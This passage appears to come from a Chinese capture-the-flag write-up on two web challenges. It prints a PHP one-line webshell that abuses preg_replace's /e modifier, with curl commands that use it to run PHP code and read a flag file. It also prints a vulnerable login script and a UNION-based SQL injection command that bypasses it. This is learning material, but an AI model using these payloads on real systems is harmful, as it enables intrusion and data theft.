 
现在拿到了用户名admin和密码fuckruntu，但是进行不下去了，不知道下一步该干嘛。最后查了一下资料，原来这里有个后台的管理web，要用这个用户名密码登录进去；而这个web的url和上边的隐藏目录 `http://cms.nuptzj.cn/loginxlcteam`有关。

登录之后提示根目录有一个一句话木马 xlcteam.php 。看一下源代码：

```php

<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
```
[array_walk](https://www.php.net/manual/en/function.array-walk.php) 的作用和python的`map`类似；这个php的大意是从http参数里面取出www的值并当作一个callback函数应用到数组arr。

- 这个callback的第一个参数是 `'|.*|e'` ，第二个参数是表单的wtf的值。
- `'|.*|e'`是一个能够匹配所有非换行字符串PCRE正则表达式；
- 两个竖杠是[delimiter](https://www.php.net/manual/en/regexp.reference.delimiters.php)，其实用斜杠也可以的；
- `e` 是一个表达式修饰符，在[php5.5以前](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)，如果`preg_replace` 的表达式使用了e修饰符，替换的结果就会被当作可变函数来执行。

因此结合 `preg_replace` 就能执行php函数了：

```shell
# PHP 5.3
curl http://cms.nuptzj.cn/xlcteam.php?www=preg_replace -X POST -d 'wtf=phpinfo();'
# 遍历当前目录
curl http://cms.nuptzj.cn/xlcteam.php?www=preg_replace -X POST -d 'wtf=print_r(scandir("."))'
# 似乎只能包含当前目录，不能包含上一级和根目录
# 发现了答案
curl 'http://cms.nuptzj.cn/about.php?file=恭喜你获得flag2.txt'
```


## [SQL注入2](http://4.chinalover.sinaapp.com/web6/index.php)

```php
# Source
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
```
让第一个字句返回结果为空，然后才能用上第二个字句的结果；类似于编程语言中逻辑运算符的求值策略，short circuit evaluation
```shell
curl http://4.chinalover.sinaapp.com/web6/index.php -X POST -d 'user=1%27+union+select+md5%28%2725252%27%29+--+m&pass=25252'
```
